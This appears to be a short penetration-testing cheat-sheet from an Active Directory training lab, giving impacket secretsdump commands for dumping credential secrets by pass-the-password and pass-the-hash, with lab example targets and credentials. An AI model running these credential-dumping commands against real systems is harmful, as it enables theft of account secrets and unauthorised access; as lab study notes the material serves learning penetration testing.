 -- -
dump all the secrets if you have valid #userpass or valid #userhash .
#### Pass-The-Password
```bash
# target IP is somewhere you can log into with the specified credentials
# probably best to be local admin, crackmapexec will let you know.
# impacket-secretsdump if below doesn't work
secretsdump.py <domain>/<username>:'<password>'@<target ip> 
secretsdump.pu MARVEL.local/fcastle:'Password1'@192.168.138.137
```

^6b4ee1

#### Pass-The-Hash
```bash
# target IP is somewhere you can log into with the specified credentials
# probably best to be local admin, crackmapexec will let you know.
# impacket-secretsdump if below doesn't work
secretsdump.py <username>:@<target ip> -hashes <NTLM hash>
secretsdump.py administrator:@192.168.138.138 -hashes <NTLM hash>
```

^8131e5
